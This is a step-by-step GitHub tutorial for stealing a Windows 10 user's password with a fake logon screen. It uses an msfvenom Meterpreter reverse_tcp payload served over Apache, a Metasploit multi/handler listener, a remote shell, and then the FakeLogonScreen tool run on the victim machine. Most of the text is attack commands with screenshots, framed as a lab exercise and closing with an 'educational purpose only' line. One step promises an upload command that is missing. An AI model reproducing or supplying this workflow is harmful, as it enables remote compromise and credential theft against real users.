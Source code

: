 ## Windows Password Fishing with Fake Login Screen

# Things You Need:
* Kali Linux Machine (attacking machine).
* Windows 10 (victim machine).

# Step 1:
Start your Kali Linux machine and download the fake login screen from [here](https://github.com/bitsadmin/fakelogonscreen/releases)

![image1](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_LVw4yPzVvtjmrfMdAwMkw.png)

# Step 2:
Now unzip the file using the command

```bash
unzip <file-name>.zip
```

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YJ_Fidq-fKkRmnCES8G-8g.png)

# Step 3:
After doing this you have to create a malicious payload using msfvenom. The exploit is as follow.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<listning-ip> lport=<listning-port> -f exe >> <file-name-you-want-to-create>.exe
```

It’s creating a Meterpreter reverse TCP shell payload for a Windows target. Meterpreter is an advanced, dynamically extensible payload that operates in memory.

![image1](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*s9ju1fzKx6Qf70kkcQrGvQ.png)

![image1](https://miro.medium.com/v2/resize:fit:464/format:webp/1*abBUYoHzSYIBeJZnA6fHhg.png)

# Step 4:
First create a directory by the name of share in the location mentioned below and then paste the file that you have created in the directory. (LOCATION: /var/www/html)

```bash
cd /var/www/html
sudo mkdir share
```

Go back to the location where you have created the .exe file and then use this command to paste the file into the directory that you have made.

```bash
sudo cp <file-name> /var/www/html/shares/
```

# Step 5:
Now turn on the Apache2 server by using the following command

```bash
sudo service apache2 start
```

![image1](https://miro.medium.com/v2/resize:fit:522/format:webp/1*IaQyUeHH9IXhzm0CF1EocA.png)

# Step 6:
Now open up your windows 10 machine and then open your favorite browser and by using this format open the server.

```bash
http://<ip-address-of-attacking-machine>/share
```

![image1](https://miro.medium.com/v2/resize:fit:316/format:webp/1*SvQoqF2Jr_DEazGT9VCNCQ.png)

As you can see the file you created is there. So you have to simply download the file from the HTTP Server.

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*cjYd-6MIwIjo0QhQtptvtg.png)

![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/f27d6212-ea98-479c-b6d1-805ffaf1c720)

# Step 7:
After this go back to your Kali Linux machine and start the metasploit tool. First the command to set the module.

```bash
use multi/handler
```

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*Cw4DrI4hQW-SLJtiwXPNRw.png)

# Step 8:
Then set the `Payload`, `LHOST`, and `LPORT` parameters by using the commands below.

```bash
set LHOST <ip-address-of-your-machine>
set LPORT 4444 // it would be set to 4444 by default
set payload windows/meterpreter/reverse_tcp
```

![image1](https://miro.medium.com/v2/resize:fit:750/format:webp/1*vHNY-jUFytRV_RgulOjWhg.png)

# Step 9:
After this use any of the commands mentioned bellow to execute the exploit. After typing the command click the .exe file in the windows to start a connection.

```bash
run
exploit
```

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hiUqGtFgl3-99E0efg0Gzw.png)

# Step 10:
Now upload the file from your Linux machine to the windows machine in the LOCATION: `/root/Downloads/FakeLogonScreen.exe` (where my file was downloaded) by using the command.


![image1](https://github.com/iabdullah215/Network-Security/assets/121729444/076e3ac5-bb86-4daa-a1de-2da143f3ec7e)

# Step 11:
Now type the command below to enter the windows cmd.

```bash
shell
```

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*viV7AJUGhsU60otvRrgpuw.png)

# Step 12:
After this run `.exe` file by just entering the download directory and typing the name of file i.e. `FakeLogonScreen.exe`

![image1](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ij0x4IIrUuMs-sVci46jiw.png)

# Step 13:
After doing everything right you’ll see that all the running files on the windows will close and a login screen will open. Upon typing the password you’ll receive the feedback on the meterpreter terminal.

![image1](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1jhonIDkgaOJZmRIZVhYLA.png)

# Step 14:
Now type in the password. If you’ll type in the wrong password. It will tell on the terminal that the password is wrong and when you’ll type in the correct password It’ll tell that it is the correct one.

![image1](https://miro.medium.com/v2/resize:fit:390/format:webp/1*1YA-dSqxhBBdbV9e9jzJnA.png)

As I was in my personal user so I can’t compromise that. So I created a test user in order to exploit it. So i again went through all the stuff and yah eventually got the password.

![image1](https://miro.medium.com/v2/resize:fit:494/format:webp/1*H8PTsDeajlosP4tJB5WCkA.png)

## Use it for educational purpose only...
